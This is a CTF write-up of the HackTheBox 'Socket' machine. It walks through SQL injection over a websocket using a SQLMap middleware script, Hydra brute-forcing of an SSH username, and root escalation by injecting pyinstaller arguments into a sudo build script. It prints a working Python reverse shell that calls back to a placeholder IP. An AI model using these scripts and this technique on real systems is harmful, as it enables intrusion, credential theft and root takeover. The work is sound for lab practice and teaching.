




# 🖥 Socket (Medium) | Writeup

## Recon

First, as usual, let's run **nmap** to find out which ports are open on the web server.

<figure><figcaption><p>nmap</p></figcaption></figure>

Right, we found two ports open in nmap, ports **22** (ssh) and **80** (http), **nmap** also already brought us the domain that we should add in _/etc/hosts_, **qreader.htb.**

But, as usual, I always run **rustscan** to check high ports faster, so since I didn't find any high ports, APIs or something, I also ran **rustscan** to confirm.

<figure><figcaption><p>rustscan</p></figcaption></figure>

And yes! We found one more port, **5789**, probably from some API or **Websocket** (the machine name gave us this hint).

Well, opening the web page, we see two functions right away involving **QRCodes**, we can generate a QRCode with a text, or from a QRCode having the text inputted, I tried some things in these fields to try to inject some **RCE** in the fields and in the way as the QRCode is "read" by the server, but without success.

We also see just below a section that redirects us to the downloads page, where we have two .**zips**, for Linux and Windows systems. Let's download the **.zip** for **Linux** and see what it's all about.

<figure><figcaption></figcaption></figure>

Inside the **app/** folder that was inside the zip, there are two more files, a binary called **qreader** and an example QRCode, **test.png**. Running the binary, an interface opens, as in the image below:

<figure><figcaption><p>qreader</p></figcaption></figure>

There are two basic functions in the file, which are similar to the functions on the web page, to generate and read QRCodes.

And in the **About** tab, we have two buttons, **Version** and **Updates**, these two buttons make calls to the **Websocket** and return some values.

I quickly coded a Python script to connect to Websocket and make my own requests:

```python
import argparse
import asyncio
import websockets
import json

ws_host = 'ws://qreader.htb:5789'

async def ws_connect(url, message):
    async with websockets.connect(url) as websocket:
        await websocket.send(message)
        response = await websocket.recv()
        return response

def version(path, version=None):
    if version is None:
        message = {}
    else:
        message = {'version': version}
    response = asyncio.run(ws_connect(f"{ws_host}/{path}", json.dumps({
        'version': version })))
    print(response)
    data = json.loads(response)
    if 'error' not in data.keys():
        version_info = data['message']
        return None

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Process some integers.')
    parser.add_argument('--version', type=str, help='The version number')
    parser.add_argument('--path', type=str, help='The path to connect')
    args = parser.parse_args()

    if args.path:
        if args.path == 'update':
            version(args.path)
        elif args.version:
            version(args.path, args.version)
        else:
            print("Please provide a version number using the --version argument.")
    else:
        print("Please provide a path using the --path argument.")
```

Btw, i added argparser to make it more dynamic and be able to further customize the inputs and paths.

And doing a quick reconnaissance in Websocket, these are the paths and responses according to each input:

<figure><figcaption></figcaption></figure>

What is most interesting in this case is the version path, which receives the input we pass via **JSON** and returns a text, maybe it is vulnerable to SQL Injection? Worth trying.

## SQL Injection

I had never done SQL Injection in Websockets, but the premise must be the same, so I did a quick search for "SQL Injection in Websockets" and found [Rayhan0x01's blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html).

The article discusses the use of **SQLMap** to inject payloads into **Websocket**, and for that, a **Middleware** is used that will raise a server in **Python** to receive injections of SQLMap payloads and will transport them to the Websocket request.

I had to make some changes to the code to better adapt to the challenge and the request itself, such as replacing single quotes `'` with escaped double quotes `\\\"`

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://qreader.htb:5789/version"

def send_ws(payload):
	ws = create_connection(ws_server)
	message = unquote(payload).replace("'",'\\\"')
	data = '{"version":"%s"}' % message
	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8082/?id=*")

try:
	middleware_server(('0.0.0.0',8082))
except KeyboardInterrupt:
	pass
```

So, let's start the Middleware on port **8082**, it will wait for SQLMap requests.

<figure><figcaption></figcaption></figure>

Now, we just need to pass our **Middleware's** URL to the **SQLMap**.

**OBS:** I needed to increase the **level** and **risk** to be able to successfully inject the payloads and bring some result.

<figure><figcaption></figcaption></figure>

That! **Websocket** is vulnerable to **SQL Injection**, and SQLMap was able to return information about the operation, note that we put the **dbs** argument, however, SQLMap identified the database type as **sqlite**, so we were unable to enumerate the databases, only from the tables, let's run SQLMap again, but pulling in all the tables now.

<figure><figcaption><p>sqlmap tables</p></figcaption></figure>

Okay, we have **6 tables**, we can discard some that won't be useful for the exploration process, let's pay attention to the tables that may contain some sensitive information, such as the <mark style="color:blue;">**users**</mark> and <mark style="color:blue;">**answers**</mark> table.

<figure><figcaption></figcaption></figure>

The table was badly formatted in the SQLMap output for some reason, but we were able to identify a few names in it: **Thomas Keller, Json, and Mike.** Let's save these names for now and take a look at the <mark style="color:blue;">**users**</mark> table.

<figure><figcaption></figcaption></figure>

Here it is! The **admin** user password is in the table! Let's try to connect with the password that was cracked by **SQLMap** and the user <mark style="color:red;">**admin**</mark> by **SSH**...

_OBS: I replaced the password with something generic because that's not the purpose of writeups :)_

<figure><figcaption></figcaption></figure>

Too easy to be true...

But don't panic, remember the names we recently picked up from the answer table? One of them must be the machine user, we just need to figure out which one, and how the user is written exactly.

## Brute Force

For this, we are going to throw all the names into a **wordlist generator**, to try to discover the username to connect to the server by **SSH.**

For that, we can use [this tool](https://github.com/captain-noob/username-wordlist-generator) that I found on Github, which merges words and letters to create a **wordlist** based on the given names. Having the wordlist with the possible usernames, let's pass it on to Hydra to perform the **fuzzing** in ssh.

<figure><figcaption></figcaption></figure>

Nice! We found the user, now we are going to connect to the server with these credentials.

## PrivEsc

Connecting to the server, we have already managed to send the user flag in HackTheBox, we need to root now. As always, let's run <mark style="color:green;">`sudo -l`</mark> to check what we can run with elevated permissions.

<figure><figcaption></figcaption></figure>

Alright, we have the following script:

```bash
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

Analyzing the script, we can see that there are 3 variables that are defined according to the script inputs: <mark style="color:blue;">**action**</mark>, <mark style="color:blue;">**name**</mark> and <mark style="color:blue;">**ext**</mark>.\
The <mark style="color:blue;">**action**</mark> variable collects the first parameter passed after executing the script, and we have the options: <mark style="color:purple;">**build**</mark>, <mark style="color:purple;">**make**</mark> and <mark style="color:purple;">**cleanup**</mark>.\
The <mark style="color:blue;">**name**</mark> variable collects the second parameter passed after the script, which in this case would be the file name.

And the <mark style="color:blue;">**ext**</mark> variable, filters the file extension that we send through the <mark style="color:blue;">name</mark> variable. Furthermore, to use <mark style="color:purple;">**build**</mark>, we can only pass files with the **.spec** extension, and in <mark style="color:purple;">**make**</mark>, only files with the **.py** extension.

If we analyze better the condition that the <mark style="color:blue;">name</mark> variable is used, we can see the flaw in the code, the variable does not do any treatment in the input itself, it only checks if the extension is **.spec** or **.py**, but the string that is passed before of the file extension is not handled or checked.\
\
With that, we can test some parameter injections in the code, as there is the **pyinstaller** executed before the <mark style="color:blue;">name</mark> variable, we can try to add parameters in the **pyinstaller** and visualize the output.

<figure><figcaption></figcaption></figure>

Success, I used the <mark style="color:green;">`-v`</mark> parameter to see if **pyinstaller** would return the package version in the script output, and we can see that yes, this opens a loophole for us to manipulate the python script that is built in the script.

Reading the **pyinstaller** manual, we will find a parameter that allows us to redirect the built python binary to any system directory, and since the script runs as root, we can overwrite any system binary Then, we'll use the <mark style="color:green;">`--dispath`</mark> parameter to send the **Python** binary to any directory on the system.

Note that after running the script with the <mark style="color:green;">`-v`</mark> parameter, the **mv** command, which runs after **pyinstaller**, returned an error because it did not find the directories that **pyinstaller** should generate, so we can replace the **mv** command itself with our **Python** binary.

Our **Python** code will contain a basic **reverse shell**, which will spawn a root shell on our host.

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("YOURIP",PORT));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; pty.spawn("sh")
```

We can save our **.py** in **/home/tkeller.**

_Before running the script, we will use **netcat** to listen to a port on our system, and wait for the reverse shell, in my case, I chose port 1337:_

```crystal
lukka@devilgothies ~/0/t/h/socket> nc -lvnp 1337
```

By having our reverse shell in our **Python** script, we can run the script with **root** permissions by passing in the right parameters.

<figure><figcaption></figcaption></figure>

Note that I used **backslashes** to send the line as a single parameter to **build-installer**, we are setting the <mark style="color:green;">`--dispath`</mark> to `/usr/bin`, and renaming the binary name to **mv**. **Pyinstaller** will build the Python file that I saved as **exp.py**, and after doing the build, it will try to use the **mv** command to move the directories that should be generated by the tool, and thus, executing our reverse shell.

After the shell is spawned, we can get the _root.txt_ flag which will be found in `/root`, as usual.

